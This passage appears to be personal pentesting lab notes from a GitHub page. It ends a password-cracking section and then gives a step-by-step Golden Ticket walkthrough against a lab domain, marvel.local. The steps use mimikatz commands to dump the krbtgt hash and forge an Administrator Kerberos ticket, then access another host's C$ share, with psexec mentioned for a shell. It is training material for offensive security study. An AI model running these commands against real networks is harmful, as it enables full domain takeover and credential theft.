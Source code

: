 This method is good for determining how good or bad the company password policies are, depending on how many passwords we can crack.

As you might infer, the best mitigation for this attack is strong passwords.

#

<p align="center">
  <body>
  Golden Ticket Attack
  </body>
</p>

#


The golden ticket is access to the Kerberos ticket granting account, meaning we have access to everything.

Start by running mimikatz with ‘mimikatz.exe’ and then using ‘privilege::debug’ again.
Then use ‘lsadump::lsa /inject /name:krbtgt’, where krbtgt stands for kerberos ticket granting ticket.

This will show a bunch of hashes as well as wdigest:

![alt text](https://cdn.discordapp.com/attachments/750764502181740564/1266179899547324519/image.png?ex=66a4356c&is=66a2e3ec&hm=f731c86a43fbd89399cac06d5a675f4150bc8875dc6cbb414bf785f1cab3fa95&)

Not the following information:
Domain SID:

![alt text](https://cdn.discordapp.com/attachments/750764502181740564/1266180696880189571/image.png?ex=66a4362a&is=66a2e4aa&hm=e112cd66a396b29e131f9257c9c8852c84f6dd047c292a467a200c793bdf2b35&)

krbtgt NTLM hash:

![alt text](https://cdn.discordapp.com/attachments/750764502181740564/1266181457232138341/image.png?ex=66a436df&is=66a2e55f&hm=e50248a4d57c1f76651cc539284484e6717ccc31a60df1f0cd4c5d6c15c0ef2a&)


In order to generate the golden ticket we use the command and the above information ‘kerberos::golden /User:Administrator /domain:marvel.local /sid:S-1-5-21-3103577861-2553214869-2910503120 /krbtgt:7380a637b4fed63264d3d9e161b87c7b /id:500 /ptt’

/id:500 means an id of the administrator
/ptt stands for pass the ticket

Now we can access other computers and their directories like the computer THEPUNISHER for example. Using ‘misc::cmd’ to open another cmd with the same session then ‘dir \\THEPUNISHER\c$’


![alt text](https://cdn.discordapp.com/attachments/750764502181740564/1266183531114270761/image.png?ex=66a438ce&is=66a2e74e&hm=fe80dc731634cc9068331d3c41b0b30889cc34de7a9ae83daace23fa8b2e3483&)



Taking this further, we can run psexec if we have it installed to launch a shell for THEPUNISHER, giving us complete access.

#

<p align="center">
  <body>
  Silver Ticket Attack (unfinished)
  </body>
</p>

#
